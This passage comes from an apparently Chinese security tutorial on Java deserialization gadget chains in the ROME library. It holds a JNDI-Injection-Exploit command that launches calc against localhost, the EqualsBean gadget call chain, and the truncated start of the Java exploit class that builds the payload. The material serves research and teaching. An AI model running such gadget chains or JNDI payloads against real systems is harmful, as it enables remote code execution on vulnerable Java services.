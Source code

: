 [![](assets/1705886615-a1d0fcf48fe56d92eab8fdb079ff83ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120125013-662ebb36-b74f-1.png)

其中LDAP服务可以通过JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar工具开启

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 127.0.0.1
```

## 9\. EqualsBean利用链

### 调用链

```plain
TemplatesImpl.getOutputProperties()
EqualsBean.beanEquals()
EqualsBean.equals()
AbstractMap.equals()
HashMap.putVal()
HashMap.put()
HashSet.readObject()
```

### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;

public class EqualsBeanExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
```